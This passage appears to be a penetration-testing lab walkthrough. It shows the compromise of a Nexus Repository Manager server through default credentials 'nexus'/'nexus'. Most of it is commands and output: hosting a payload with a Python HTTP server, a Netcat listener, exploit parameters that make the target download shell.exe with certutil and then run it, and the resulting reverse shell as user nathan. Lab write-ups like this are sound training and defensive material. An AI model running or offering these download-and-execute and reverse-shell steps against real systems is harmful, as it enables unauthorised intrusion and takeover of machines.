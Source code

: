 We'll host our payload over HTTP.

```
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's start a Netcat handler on port 8081 to catch our reverse shell.

```
kali@kali:~$ nc -lvp 8081
listening on [any] 8081 ...
```

We'll modify the exploit as follows:

```
URL='http://192.168.140.61:8081'
CMD='cmd.exe /c certutil -urlcache -split -f http://192.168.118.3/shell.exe shell.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

Next, we'll run the exploit to download our payload.

```
kali@kali:~$ python exploit.py 
Logging in
Logged in successfully
Command executed
```

We'll make a few more modifications, this time executing our payload.

```
CMD='cmd.exe /c shell.exe'
```

Let's run the exploit again.

```
kali@kali:~$ python exploit.py 
Logging in
Logged in successfully
Command executed
```

Finally, we catch our reverse shell as `nathan`.

```
kali@kali:~$ nc -lvp 8081
listening on [any] 8081 ...
192.168.140.61: inverse host lookup failed: Host name lookup failure
connect to [KALI] from (UNKNOWN) [192.168.140.61] 49883
Microsoft Windows [Version 10.0.18362.719]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\nathan\Nexus\nexus-3.21.0-05>whoami
whoami
billyboss\nathan
```
